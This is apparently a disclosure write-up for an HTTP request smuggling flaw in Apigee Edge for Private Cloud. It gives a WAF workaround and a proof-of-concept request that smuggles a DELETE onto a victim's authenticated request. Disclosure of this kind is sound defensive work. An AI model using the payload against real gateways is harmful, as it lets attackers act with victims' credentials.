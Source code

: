 # Apigee HTTP Request Smuggling
Tested on Edge for Private Cloud v4.19.01

Responsible disclosure have not led to a resolution of the problem within the 90 days.
Despite the confirmation of the vulnerability and a Google VRP bounty it was moved to "Won't fix / Intended behavior" status.
This puts multiple active deployments at risk, this entry serves as a guide on how to mitigate it (i.e. WAF filtering)

Issue description:
Apigee does not properly parse HTTP request length when both `Content-Length` and `Content-Encoding: chunked` are set bu the client.
This allows to send requests larger than the assumed size, resulting in appending the overflow data to the next request in the HTTP proxy.
Through such malformed requests attacker can prepend request to the victim issued one, together with original HTTP headers (authorization).
Successful attacks might allow for taking actions on behalf of authenticated users.

This attack is already well explained [here](https://portswigger.net/web-security/request-smuggling), the only difference is that Apigee vulnerability is triggered for `Content-Encoding: chunked` instead of `Transfer-Encoding: chunked`.

## Remediation

The only workaround is to block all requests with `Content-Encoding: chunked` header.
This is not a part of the original HTTP specification and will unlikely be used by any legitimate client.


## PoC - HTTP Request Smuggling

1. Attacker sends multiple requests in order to poison the API proxy:
```
POST /v1/login HTTP/1.1
Host: apigee.proxy-gateway.com
User-Agent: BurpSuite-intruder
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Encoding: chunked
Content-Length: 108

0

DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: 
```

2. When the legitimate client later sends a HTTP request such as:
```
GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

3. Result will be the following request issued on victim behalf:
```
DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

## Limitations

- Poisoning might require an unauthenticated API endpoint which accepts POST method (usually this will be available in authentication)
- HTTP smuggling is limited to method, uri and headers only (not found any way to append request body).

